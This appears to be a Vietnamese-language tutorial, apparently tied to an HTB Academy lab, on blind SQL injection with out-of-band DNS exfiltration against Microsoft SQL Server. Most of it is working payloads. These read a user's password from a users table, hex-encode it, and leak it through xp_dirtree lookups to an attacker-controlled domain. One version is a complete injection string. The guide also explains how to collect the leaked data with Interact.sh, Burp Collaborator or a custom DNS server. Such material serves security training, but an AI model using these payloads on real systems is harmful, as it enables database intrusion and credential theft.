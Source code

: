 
### **1. Thiết lập môi trường**
Bạn cần:
1. **Tên miền do bạn kiểm soát** (hoặc sử dụng công cụ như **Interact.sh** hoặc **Burp Collaborator** để nhận DNS log).
2. **Máy chủ DNS tùy chỉnh** nếu tấn công trên mạng nội bộ.

---

### **2. Payload cơ bản cho DNS Exfiltration**

#### **Mục tiêu:** Trích xuất giá trị từ cơ sở dữ liệu.

#### **Cấu trúc payload:**
- **SQL Payload mẫu:**
```sql
DECLARE @T VARCHAR(MAX);
SELECT @T=(SELECT password FROM users WHERE username='maria');
EXEC('master..xp_dirtree "\\'+@T+'.YOUR.DOMAIN\"');
```

- **Với mã hóa Hex:** Đảm bảo dữ liệu tuân thủ quy tắc DNS.
```sql
DECLARE @T VARCHAR(MAX), @A VARCHAR(63), @B VARCHAR(63);
SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), password), 1) FROM users WHERE username='maria';
SELECT @A=SUBSTRING(@T,3,63), @B=SUBSTRING(@T,66,63);
EXEC('master..xp_dirtree "\\'+@A+'.'+@B+'.YOUR.DOMAIN\"');
```

---

### **3. Triển khai với DNS Exfiltration**

#### **Ví dụ Payload:**
- Trích xuất hash mật khẩu của người dùng **Maria**.
```sql
maria';DECLARE @T VARCHAR(MAX), @A VARCHAR(63), @B VARCHAR(63);
SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), password), 1) FROM users WHERE username='maria';
SELECT @A=SUBSTRING(@T,3,63), @B=SUBSTRING(@T,66,63);
EXEC('master..xp_dirtree "\\'+@A+'.'+@B+'.blindsqli.academy.htb\"');--
```

---

### **4. Thu thập dữ liệu từ DNS Logs**

1. **Sử dụng công cụ DNS:**
   - **Interact.sh:** Truy cập [Interact.sh](https://app.interactsh.com) để nhận tên miền tạm thời và theo dõi các yêu cầu DNS.
   - **Burp Collaborator:** Sử dụng nếu có **Burp Suite Pro** để theo dõi tương tác OOB.

2. **Hoặc tự triển khai DNS server:**
   - Thiết lập máy chủ DNS tùy chỉnh trên mạng nội bộ hoặc sử dụng tên miền với máy chủ DNS của bạn.
   - Theo dõi log của DNS server để lấy dữ liệu bị trích xuất.

---
